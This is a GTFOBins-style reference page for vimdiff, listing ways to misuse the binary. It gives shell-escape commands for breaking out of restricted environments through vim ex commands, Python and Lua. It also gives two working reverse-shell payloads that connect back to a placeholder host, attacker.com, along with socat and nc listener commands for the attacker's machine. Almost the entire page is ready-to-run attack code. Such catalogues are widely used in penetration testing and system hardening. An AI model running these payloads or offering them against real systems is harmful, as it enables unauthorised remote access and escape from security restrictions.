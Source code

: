 # GTFOBin: vimdiff

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
vimdiff -c ':!/bin/sh'
```

```
vimdiff
:set shell=/bin/sh
:shell
```

This requires that `vimdiff` is compiled with Python support. Prepend `:py3` for Python 3.

```
vimdiff -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

This requires that `vimdiff` is compiled with Lua support.

```
vimdiff -c ':lua os.execute("reset; exec sh")'
```

## Reverse shell

It can send back a reverse shell to a listening attacker to open a remote network access.

This requires that `vimdiff` is compiled with Python support. Prepend `:py3` for Python 3. Run `socat file:`tty`,raw,echo=0 tcp-listen:12345` on the attacker box to receive the shell.

```
export RHOST=attacker.com
export RPORT=12345
vimdiff -c ':py import vim,sys,socket,os,pty;s=socket.socket()
s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")
vim.command(":q!")'
```

## Non-interactive reverse shell

It can send back a non-interactive reverse shell to a listening attacker to open a remote network access.

Run `nc -l -p 12345` on the attacker box to receive the shell. This requires that `vimdiff` is compiled with Lua support and that `lua-socket` is installed.

```
export RHOST=attacker.com
export RPORT=12345
vimdiff -c ':lua local s=require("socket"); local t=assert(s.tcp());
  t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
  while true do
    local r,x=t:receive();local f=assert(io.popen(r,"r"));
    local b=assert(f:read("*a"));t:send(b);
  end;
  f:close();t:close();'
```
